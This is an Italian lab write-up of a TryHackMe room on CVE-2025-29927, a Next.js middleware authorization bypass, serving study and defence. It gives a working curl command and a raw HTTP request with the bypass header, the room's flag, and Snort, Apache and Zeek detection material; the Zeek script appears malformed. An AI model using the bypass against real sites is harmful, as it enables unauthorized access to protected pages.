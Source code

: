 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/nextjscve202529927

Next.js è un framework di sviluppo web sviluppato da Vercel per semplificare la creazione di applicazioni web ad alte prestazioni. Costruito su React, Next.js estende le capacità di React aggiungendo diverse funzionalità, come la generazione di siti statici (SSG) e il rendering lato server (SSR). SSG pre-genera le pagine in fase di compilazione, consentendo una distribuzione più rapida agli utenti; inoltre, SSR esegue il rendering delle pagine in fase di richiesta, riducendo il tempo di caricamento. In breve, Next.js ha aggiunto funzionalità per migliorare le prestazioni e l'esperienza utente.

[CVE -2025-29927](https://nvd.nist.gov/vuln/detail/CVE-2025-29927) , una vulnerabilità recente scoperta da [Rachid e Yasser Allam](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware) in Next.js, ha rivelato che è possibile aggirare i controlli di autorizzazione se si verificano nel middleware. Il middleware è la parte che garantisce agli sviluppatori il controllo sulle richieste in arrivo. Agisce come un ponte tra la richiesta in arrivo e il sistema di routing. Il sistema di routing è basato su file, ovvero le rotte vengono create e gestite organizzando file e directory. Questa vulnerabilità consente agli aggressori di aggirare l'autorizzazione basata sul middleware e tutte le versioni precedenti alla 14.2.25 e alla 15.2.3 sono soggette a questa vulnerabilità.

Next.js è ampiamente utilizzato in vari tipi di applicazioni, tra cui piattaforme di e-commerce, app di notizie, siti di documentazione e app Web interattive. Di conseguenza, questa vulnerabilità può avere conseguenze disastrose e richiede agli amministratori di aggiornare le proprie installazioni a una versione patchata.

In questa sala esploreremo come sfruttare e rilevare questa vulnerabilità.


[Un'app sfruttabile](https://github.com/aydinnyunus/CVE-2025-29927) proof of concept ( PoC ) e un codice exploit sono pubblicati da Yunus Aydin su GitHub. Abbiamo adattato l'app e l'abbiamo ospitata sulla VM allegata . Puoi visualizzare l'applicazione web di esempio visitando su AttackBox. Tuttavia, se provi ad accedere al percorso protetto su , verrai reindirizzato alla home page.[](https://github.com/aydinnyunus/CVE-2025-29927)`http://MACHINE_IP:3000``http://MACHINE_IP:3000/protected`

**curl**

Sfruttare la vulnerabilità CVE -2025-29927 è piuttosto semplice; tutto ciò che l'attaccante deve fare è aggiungere l' intestazione HTTP`x-middleware-subrequest: middleware` extra nella sua richiesta. Come spiegato nel [post originale](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware) che rivela questa vulnerabilità, l'aggiunta dell'intestazione `x-middleware-subrequest`porta la richiesta a essere inoltrata alla sua destinazione senza che il middleware la manipoli. Di conseguenza, non serve altro che usare `curl`con l'argomento di intestazione appropriato per accedere a percorsi protetti, ovvero pagine.

Sfruttando questa vulnerabilità possiamo accedere alla pagina protetta. Un modo semplice è quello di inviare il comando qui sotto nel terminale su AttackBox.

`curl -H "x-middleware-subrequest: middleware" http://MACHINE_IP:3000/protected`

Il comando è come un normale `curl`comando con un'eccezione: usa `-H`, un equivalente di `--header`, per aggiungere un'intestazione extra alla richiesta HTTP GET. Di conseguenza, il `curl`comando sopra riportato consente all'attaccante di aggirare tutti i controlli di sicurezza e recuperare la pagina protetta.

**Burp Suite**

Se preferisci un'interfaccia utente grafica, è altrettanto facile sfruttare questa vulnerabilità usando Burp Suite . Un modo semplice per farlo è usare il browser di Burp Suite e modificare le richieste mentre accedi `http://MACHINE_IP:3000/protected`.

Se non hai familiarità con Burp Suite , puoi seguire i seguenti passaggi dopo aver avviato Burp Suite :

1. Vai alla scheda **Proxy** e assicurati che **Intercept** sia attivo. Questo assicurerà che Burp Suite intercetti tutte le richieste HTTP e ti dia la possibilità di modificarle prima che vengano inviate al server web.
2. Fare clic sul pulsante **Apri browser** e andare su `http://MACHINE_IP:3000/protected`.
3. La richiesta HTTP viene intercettata e rimane bloccata finché non si fa clic sul pulsante **Avanti** .

Individua i tre pulsanti per attivare Intercept, aprire il browser e inoltrare la richiesta HTTP

Prima di premere il pulsante **Avanti** , devi aggiungere `x-middleware-subrequest: middleware`alle tue intestazioni HTTP . L'immagine qui sotto mostra un esempio di un'intestazione manipolata. Puoi vedere i risultati nel browser.

```
http://10.10.107.96:3000
```

```
http://10.10.107.96:3000/protected
```

accedere alla pagina protetta con curl
```
curl -H "x-middleware-subrequest: middleware" http://10.10.107.96:3000/protected
```
oppure accedere con burpsuite

aggiungere  sotto Hosts nella scheda Intercept e poi premere  Forward
```
x-middleware-subrequest: middleware
```

```
GET / HTTP/1.1
Host: 10.10.107.96:3000
x-middleware-subrequest: middleware
User-Agent: J
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-None-Match: "1v6j6mhmf35h7"
```

```
THM{NEXT_MDLE_JS}
```


**Rilevamento**

Ricordiamo dalle attività precedenti che CVE -2025-29927 per Next.js è un bypass dell'autorizzazione middleware, che consente di accedere a pagine e percorsi che in precedenza richiedevano tale autorizzazione.

In questa attività verranno illustrate alcune tecniche e regole che possono essere utilizzate per rilevare l'avvenuto attacco, sia tramite i log che tramite il traffico di rete.

**Manuale**

I log del server Web possono potenzialmente essere utilizzati per scoprire prove di questo exploit in atto. Tuttavia, dipenderà dal fatto che il server Web sia configurato o meno per registrare le intestazioni HTTP . Ad esempio, NodeJS consente la registrazione di questa specifica intestazione HTTP tramite `request.headers['x-middleware-subrequest']`

Se l'applicazione web è proxy, la configurazione di registrazione su server web come Nginx o Apache2 dovrà essere modificata per registrare questa specifica intestazione. Ad esempio, **LogFormat** all'interno di Apache2 può essere utilizzato:

`LogFormat "%h %l %u %t \"%r\" %>s %b \"%{Referer}i\" \"%{User-Agent}i\" \"%{x-middleware-subrequest}i\"" custom`

Una volta impostata correttamente la registrazione di questa intestazione HTTP , è possibile utilizzare strumenti comuni come Grep, Yara, ecc.

**Snort (v2)**

La seguente regola Snort, se utilizzata come IDS , può essere utilizzata per rilevare l'esecuzione di CVE -2025-29927:

```bash
alert tcp any any -> any any (msg: "HTTP 'x-middleware-request' header detected, possible CVE-2025-29927 explotation"; content:"x-middleware-subrequest";  rawbytes; sid:10000001; rev:1)
```

Questa regola ispeziona il pacchetto senza fattorizzare o considerare alcun protocollo, ad esempio il `http_headers`modulo. Questo perché l' intestazione HTTP "x-middleware-request" non è un'intestazione [riconosciuta](https://docs.snort.org/rules/options/payload/http/header) all'interno di Snort al momento della scrittura.

Per prima cosa, aggiungeremo la regola Snort alle nostre regole locali. Di default, su Ubuntu, si trova in `/etc/snort/rules/local.rules`. Ora incolleremo il frammento di codice sopra e salveremo. Nota che dovrai cambiare il `sid` valore in un altro se hai regole esistenti.

Modifica delle local.rules di Snort

```bash
ubuntu@tryhackme-2404:~$ sudo nano /etc/snort/rules/local.rules
- $Id: local.rules,v 1.11 2004/07/23 20:14:44 bmc Exp $
- ----------------
- LOCAL RULES
- ----------------
- This file intentionally does not come with signatures.  Put your local
-
additions here.
alert tcp any any -> any any (msg: "HTTP 'x-middleware-request' header detected"; content:"x-middleware-subrequest";  rawbytes; sid:10000001; rev:1)
```

Ora possiamo eseguire Snort e testare il rilevamento. Il terminale seguente esegue Snort in modalità console per dimostrare l'attivazione dell'avviso.

Rilevamento dello sbuffoCVE-2025-29927

```bash
ubuntu@tryhackme-2404:/var/log/snort$ sudo snort -q -l /var/log/snort -i ens5 -A console -c /etc/snort/snort.conf
03/24-20:16:13.424299  [**] [1:10000001:1] HTTP 'x-middleware-request' header detected [**] [Priority: 0] {TCP} 10.10.142.69:49432 -> 10.10.219.251:3000
```

**Zeek**

Zeek offre un'opportunità più completa per il rilevamento delle minacce nel traffico di rete. Per  CVE -2025-29927, è possibile utilizzare la seguente regola Zeek :

```bash
module CVE_2025_29927;

export {
    redef enum Log::ID += { LOG };
    global log_policy: Log::PolicyHook = Log::IGNORE;

    event http_header(c: connection, is_orig: bool, name: string, value: string) {
        if (name == "x-middleware-subrequest" && value == "middleware")
            Log::write(HTTP::LOG, [
                $timestamp=c$start_time,
                $uid=c$uid,
                $id=c$id,
                $note="CVE_2025_29927_Exploit",
                $msg="Detected HTTP header associated with CVE-2025-29927",
                $header=name,
                $value=value
           ]);
        notice_info(c, "CVE-2025-29927 Exploit", fmt("The HTTP header '%s' associated with CVE-2025-29927 was detected", value));
    }
  }
}
```

Assicurati che questo file venga salvato con l' `.zeek`estensione nella directory configurata per gli script Zeek . Dovrai modificare il tuo `local.zeek`per includere questo script aggiungendo `@load ./cve_2025_29927.zeek`.

Infine, riavvia Zeek per applicare le modifiche alla configurazione tramite `sudo zeekctl deploy`. Se l'operazione ha esito positivo, Zeek ora avviserà quando viene rilevato CVE -2025-29927:

```bash
[Connnection_ID] The HTTP header "x-middleware-subrequest" associated with CVE-2025-29927 was detected
```
